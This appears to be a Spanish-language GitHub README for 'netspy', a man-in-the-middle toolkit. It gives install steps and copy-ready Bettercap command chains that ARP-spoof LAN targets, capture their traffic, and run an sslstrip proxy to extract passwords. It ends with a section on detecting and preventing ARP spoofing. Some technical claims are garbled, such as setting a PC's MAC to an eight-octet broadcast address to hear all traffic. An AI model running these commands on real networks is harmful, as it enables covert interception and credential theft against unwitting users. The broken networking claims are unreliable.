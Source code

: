 # Interceptacion Ethernet

MiTM interceptación de trafico LAN en claro:

Estenarios:

1º.- Interceptación entre 2 puntos; 

Disponer de acceso a uno de los 2 puntos, e instalar en alguno de los extremos: Wireshark, dsniff, Smartsnif nifsoft, Bettercap, Ethercap, Extension navegador, netspy, tcpdump etc..

2º.- red LAN con HUB o switch "sin inteligencia"

Instalar un HUB en el medio de una red, por su modo de funcionamiento rebotan todos los pquete en todas las MAC y paquete Ethernet, par interceptación.

Instalar un PC conectado al HUB, con la  tarjeta  de red en modo promiscuo, que escuche todo el trafico de la red. Tener instalado Wireshark, netspy,etc

Modificar MAC Adrees de un PC conectado a la red, con la MAC Broadcast FF:FF:FF:FF:FF:FF:FF:FF que escurche todo el trafico de la red

3º.- En una red LAN con conmutadores Switch inteligente configurable :

Configurar port mirroning en el switch para que una copia de todo el trafico se encamine a una sola ethernet del switch, donde hay un PC en modo promiscuo con Wirehark, netspy, etc.. capturando 

En un PC conectado a la red instalar un Proxy, para hacer pasar, encaminar por el e interceptar el trafico!

En un PC conectado instala un Proxy trasparente. Usa ARP Spoofing, suplantación de MAC, para encaminar y poder ver e interceptar  el trafico de otros dispositivos!

4º.- Instalar  en: pasarelas, FW , routers, swithes, etc.. equipos en medio de las redes para interceptación: HUBS, switches port mirronig, proxyes, TAB .. 

<img style="float:left" alt="Escenarios interceptacion" src="https://github.com/hackingyseguridad/netspy/blob/master/MiTM.png">

** https://www.bettercap.org/ Beettercap combina ARP Spoofing y proxy trasparte

<img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/netspy/blob/master/netspy.png">

# netspy

# 1.- Descubre elementos de red 2.- Captura y muestra en pantalla el trafico.

# Instalacion:

apt-get install bettercap

apt-get install netdiscover

git clone https://github.com/hackingyseguridad/netspy

cd netspy

chmod 777 netspy

# Uso.:

sh netspy

sh proxynetspy

netdiscover

IMPORTANTE: Para salir del modo de descubrimiento 'net probe on' y empezar a esnifar teclea 'exit'.

# Bettercap v2.9

Escanear toda la Red:

net.probe on; ticker on

Banear tarjet IP con ARP:

set arp.spoof.targets IP; arp.spoof on; set arp.ban on; net.probe on

Capturar trafico en fichero siff_all.pcap:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.output /tmp/sniff_all.pcap; set net.sniff.verbose false; net.sniff on

Ver Trafico:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on

Ver trafico web por proxy y extrae claves:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on; set http.proxy.sslstrip true

Ver trafico web por proxy y extrae claves de cifrados debiles:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on;  true; set http.proxy.port 80; set https.proxy.port 443; http.proxy on; https.proxy on; set http.proxy.sslstrip


Versiones antiguas Bettercap: 1.6.1 y 1.6.2 en Python

El ARP Spoofing, o envenenamiento ARP, es un tipo de ataque que puede comprometer seriamente la seguridad de una red local. Consiste en la manipulación de la MAC Addres y por tanto tabla ARP de un dispositivo para redirigir el tráfico de red hacia el atacante, permitiéndole interceptar y modificar la información que fluye por la red.
¿Cómo detectar un ataque de ARP Spoofing?
Este tipo de ataque suele ser silencioso y difícil de detectar a simple vista, es fundamental contar con herramientas y técnicas específicas. P.ej:

Herramientas de Detección:

•	Sistemas de detección de intrusiones (IDS): Un IDS bien configurado puede detectar anomalías en el tráfico de red, como un aumento repentino en el número de solicitudes ARP o respuestas ARP falsas.

•	Sniffers de paquetes: Herramientas como Wireshark te permiten analizar el tráfico de red en tiempo real. Al examinar los paquetes ARP, puedes identificar patrones inusuales o respuestas ARP falsas.

•	Herramientas especializadas: Existen herramientas diseñadas específicamente para detectar ARP Spoofing, como ARPwatch, que monitorea la tabla ARP y alerta sobre cambios inesperados.

Técnicas de Detección:
•	Problemas de conectividad: Dificultad para acceder a ciertos sitios web o servicios de red.
•	Monitoreo de la tabla ARP: Revisa regularmente la tabla ARP de los dispositivos de tu red para identificar entradas desconocidas o duplicadas.
•	Análisis de registros: Examina los registros del sistema y de las herramientas de seguridad para buscar cualquier indicio de actividad sospechosa, como intentos de acceso no autorizados o cambios en la configuración de la red.
•	Pruebas de penetración: Realiza pruebas de penetración periódicas para identificar vulnerabilidades en tu red y evaluar la efectividad de tus medidas de seguridad.
•	Uso de protocolos de seguridad: Implementa protocolos de seguridad como DHCP Snooping, IP Source Guard y Dynamic ARP Inspection (DAI), que pueden ayudar a prevenir y detectar ataques de ARP Spoofing.
Síntomas de un Ataque de ARP Spoofing:
Aunque no siempre son evidentes, algunos síntomas pueden indicar un ataque de ARP Spoofing:
•	Pérdida de paquetes: Interrupciones en la comunicación o lentitud en la red.
•	Actividad sospechosa en la red: Detección de tráfico no autorizado o intentos de acceso a recursos sensibles.
•	Cambios inesperados en la configuración de red: Modificaciones no autorizadas en la configuración de los dispositivos de red.

Prevención del ARP Spoofing:
•	Configuraciones estáticas: Establece entradas ARP estáticas para dispositivos críticos, como routers y servidores.  habilitar "client isolation",
•	Segmentación de redes: Divide tu red en segmentos más pequeños para limitar el impacto de un posible ataque.
•	Actualizaciones de software: Mantén todos tus dispositivos actualizados con los últimos parches de seguridad.
•	Educación de los usuarios: Sensibiliza a los usuarios sobre los riesgos de los ataques cibernéticos y cómo protegerse.
•	implementar nuevo ARP firmado con certificado y clave PKI

https://github.com/hackingyseguridad/mitm

www.hackingyseguridad.com

